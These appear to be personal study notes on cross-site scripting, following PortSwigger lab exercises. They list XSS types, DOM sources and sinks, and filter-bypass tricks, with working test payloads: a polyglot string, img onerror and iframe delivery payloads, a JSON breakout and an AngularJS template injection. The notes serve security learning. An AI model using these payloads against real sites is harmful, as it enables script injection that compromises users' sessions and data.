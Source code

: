 ### XSS types
	- Types of XSS: search, form, and parameter
		1. Reflected : 
		2. Stored 
		3. DOM: search for eval
		4. Blind : XSS hunter express
	- install dom invader in burp
	
	- ployglots:  jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e     also search for more
	
	when you are seaching somewhere and if its burf then the search text added in dom by js will not be shown
	

	Reflected cross site attack
		when a text box takes input and renders into the page
			<script>alert(1)</script>
			but if renders inside the tag then don't use script <img src=0 onerror="alert(1)">
		check if eval is used  in the js and this is always vulnerable. JSON and Js response are not same 
		    `abcd\"-alert(1)}//` for getting response like {"results":[],"searchTerm":"abcd\\"-alert(1)}//"}
		also check if escape is there for few characters like /, ", ' 
		use - instead of + because + is always URL encoded
		if something like script is removed then use sscriptcript which will remove script but still get script

		https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected


	Stored cross site attack
		<script>alert(1)</script>

	Dom-based XSS
		DOM-based vulnerabilities arise when a website contains JavaScript that takes an attacker-controllable value, known as a source, and passes it into a dangerous function, known as a sink.
		e.g. https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink
		sources: All these are the sources of getting data which is attacker-controlled.
			This can be done by doing serach in the url an check if something is coming or not. But this is not available with DOM because js manipulate here is not shown on inspect source


			location.search
			location.hash
			document.referrer
			document.cookie
			document.write()
			document.writeln()
			document.domain
			element.innerHTML
			element.outerHTML
			element.insertAdjacentHTML
			element.onevent
			
		sinks: This evaluates attacker script if the attacker data is passed
			This is tricky because the dom might not contain it as it happens with contains tag


			document.body.innerHTML
			document.write
			$('')
			or any eval function


			Taint-flow vulnerabilities
				document.URL
				document.documentURI
				document.URLUnencoded
				document.baseURI
				location
				document.cookie
				document.referrer
				window.name
				history.pushState
				history.replaceState
				localStorage
				sessionStorage
				IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
				Database

			js sinks 
				add()
				after()
				append()
				animate()
				insertAfter()
				insertBefore()
				before()
				html()
				prepend()
				replaceAll()
				replaceWith()
				wrap()
				wrapInner()
				wrapAll()
				has()
				constructor()
				init()
				index()
				jQuery.parseHTML()
				$.parseHTML()

		attacking through img tag error
			im = document.createElement("img")
			im.src =0 #It sends the request looking for image instantenously and gets error
			$('section .blog-list h2:contains(<img src="o" onerror="alert(0)">') # because contains creates a detached element if tags are passed

			deliver this exploit to victim
				<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>

		

		attack warning 
			The innerHTML sink doesn't accept script elements on any modern browser, nor will svg onload events fire so use `<img src` onerror or onload tags>


		DOM XSS in AngularJS
			https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression
			 AngularJS will execute JavaScript inside double curly braces that can occur directly in HTML or inside attributes
			 	ng-app attribute

			 	{{$on.constructor('alert(1)')()}}

		<script>document.write(alert(1))</script>































TO read:
	https://portswigger.net/web-security/dom-based










		